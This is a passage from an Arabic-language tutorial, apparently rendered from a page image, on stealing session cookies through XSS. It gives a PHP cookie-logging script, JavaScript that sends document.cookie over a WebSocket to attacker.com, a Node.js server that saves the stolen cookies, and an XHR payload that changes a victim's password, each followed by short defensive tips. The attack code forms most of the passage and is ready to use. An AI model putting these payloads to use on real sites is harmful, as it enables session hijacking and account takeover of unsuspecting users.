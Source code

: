          ```php
         <?php
         file_put_contents("stolen_cookies.txt", $_GET['cookie'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - نفس الطريقة: Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الريدايركت لغير المواقع الموثوقة.
     - راقب تصرفات الصفحة لو فيها تحويلات غريبة.

## 4. **استخدام WebSocket لسرقة الكوكيز**
   - **إزاي بتحصل؟**
     - السكربت بيعمل اتصال WebSocket بسيرفر المهاجم وبيبعت الكوكيز عليه.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var ws = new WebSocket("ws://attacker.com:8080");
       ws.onopen = function() {
           ws.send(document.cookie);
       };
       ```
       - `WebSocket`: بيعمل اتصال مستمر بين المتصفح والسيرفر.
     - **إعداد سيرفر WebSocket**:
       - المهاجم بيستخدم أداة زي **Node.js** مع مكتبة `ws`:
         ```javascript
         const WebSocket = require('ws');
         const fs = require('fs');
         const wss = new WebSocket.Server({ port: 8080 });
         wss.on('connection', ws => {
             ws.on('message', message => {
                 fs.appendFileSync('stolen_cookies.txt', message + '\n');
             });
         });
         ```
         - الأمر عشان تشغل السيرفر:
           ```bash
           node websocket_server.js
           ```
   - **إزاي بيحط السكربت؟**
     - زي قبل كده: Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع اتصالات WebSocket لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها اتصالات غريبة.

## 5. **هجمات بدون سرقة الكوكيز مباشرة (Session Replay)**
   - **إزاي بتحصل؟**
     - لو الكوكيز `HttpOnly` ومش متاحة لـ JavaScript، المهاجم بيستخدم السكربت عشان يعمل طلبات مباشرة من المتصفح بتاع الضحية، والمتصفح بيبعت الكوكيز تلقائيًا.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http://vulnerable.com/change-password", true);
       xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
       xhr.send("new_password=attacker123");
       ```
       - `XMLHttpRequest`: بيبعت طلب للموقع، والكوكيز بتروح معاه تلقائيًا.
     - **اختبار الطلبات**:
       - المهاجم بيستخدم أداة زي **Burp Suite** عشان يشوف إزاي الموقع بيستقبل الطلبات:
         - افتح Burp Suite، شغل الـ Proxy، واعترض طلب تغيير باسورد عادي.
         - استخدم السكربت عشان يعمل نفس الطلب تلقائيًا.